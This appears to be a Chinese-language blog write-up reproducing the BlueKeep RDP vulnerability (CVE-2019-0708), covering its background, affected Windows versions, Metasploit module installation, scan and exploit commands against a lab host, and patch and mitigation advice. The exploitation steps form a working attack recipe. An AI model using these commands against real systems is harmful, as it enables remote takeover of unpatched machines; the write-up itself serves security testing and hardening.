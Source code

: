```yaml
---
title: CVE-2019-0708复现
date: 2019-09-07 11:15:29
tag:
	- CVE-2019-0708
---
```

2019年9月7日凌晨,metasploit官方发布CVE-2019-0708漏洞利用代码,该EXP可以通过RDP协议进行远程代码执行攻击.官方描述此漏洞相关危害可参考2017年WannaCry事件,强烈建议用户及时安装补丁以避免受到损失.

## 漏洞始末

### 漏洞原理

CVE-2019-0708(远程代码执行漏洞),当未经身份验证的攻击者使用RDP连接到目标系统并发送特制请求时,即可以触发该漏洞.此漏洞属于预身份验证,无需用户交互,成功利用此漏洞的攻击者可以安装应用程序,查看、更改或删除数据或创建具有完全用户权限的新账户.

恶意攻击者还很有可能利用该漏洞编写定制的恶意软件,利用此漏洞的恶意软件传播影响都可能与2017年WannaCry恶意软件遍布全球的事件类似,由于EXP的公开发布,需要广大用户更加警惕利用该漏洞的恶意软件的出现,提前做好预防措施.

### 漏洞时间

2019-5-14 Microsoft发布安全更新公告并披露漏洞.

2019-9-7 EXP发布并复现验证,证实该EXP可导致服务器远程代码执行,特再次发布预警,提供解决方案给广大企业用户.

### 影响范围

目前受影响的Windows版本:
Microsoft Windows XP
Microsoft Windows Server 2008 R2 for x64-based Systems SP1
Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
Microsoft Windows Server 2008 for x64-based Systems SP2
Microsoft Windows Server 2008 for Itanium-based Systems SP2
Microsoft Windows Server 2008 for 32-bit Systems SP2
Microsoft Windows Server 2003
Microsoft Windows 7 for x64-based Systems SP1
Microsoft Windows 7 for 32-bit Systems SP1

### 漏洞类型

远程代码执行

## 漏洞验证

### 环境准备

Metasploit
[EXP对应脚本](http://www.si1ent.xyz/Tools/CVE-2019-0708MSF.zip)
Windows 7 x64 旗舰版6.1.7601 Service Pack 1 Build 7601

### 实操

#### Metasploit模块重载

该EXP被发布者在Metasploit的官方Github的Pull Request中,但尚未加载进Metasploit的官方框架中. 所以下载EXP对应脚本并进行替换！！！！！直接替换！！！

msf对应位置:

```BASH
rdp.rb ----> /opt/metasploit-framework/embedded/framework/lib/msf/core/exploit/rdp.rb

rdp_scanner.rb ----> /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/rdp_scanner.rb

cve_2019_0708_bluekeep.rb ----> /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb

cve_2019_0708_bluekeep_rce.rb ----> /opt/metasploit-framework/embedded/framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
```

重载模块

msf5>reload_all

#### 漏洞检测

```bash
msf5>use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf5>set RHOSTS 172.16.144.142
msf5>run
```

![](/images/cve0708/cve_check.jpg)

#### 漏洞利用

```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS 172.16.144.142
set target 3(target根据自己系统版本设定)
run
```

![](/images/cve0708/cve_attack.jpg)

#### 可能存在问题

\* set target 1 - bluescreen(可能出现蓝屏重启)
\* set target 3 - success
如果出现下图:

![](/images/cve0708/cve1.jpg)

尝试设置: set ForceExploit true

## 漏洞加固

#### 及时进行补丁更新

Microsoft在2019年5月14日修复了该漏洞
[补丁下载地址](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708)
以及为已不受微软更新支持的系统(Windows Server 2003和Windows XP)提供的安全更新
[补丁下载地址]( https://support.microsoft.com/zh-cn/help/4500705/customer-guidance-for-cve-2019-0708)

#### 缓解措施

在无法及时安装微软安全更新的情况下作为临时性解决方案

- 若用户不需要用到远程桌面服务,建议禁用该服务.
- 开启网络级别身份验证(NLA),此方案适用于Windows 7, Windows Server 2008, Windows Server 2008 R2 以上缓解措施只能暂时性针对该漏洞对系统进行部分缓解,强烈建议在条件允许的情况下及时安装微软安全更新.

## 参考

```php+HTML
https://github.com/rapid7/metasploit-framework/pull/12283?from=timeline&isappinstalled=0
https://mp.weixin.qq.com/s/Mf5TuATyyU7-W2VDHCRKnA
```


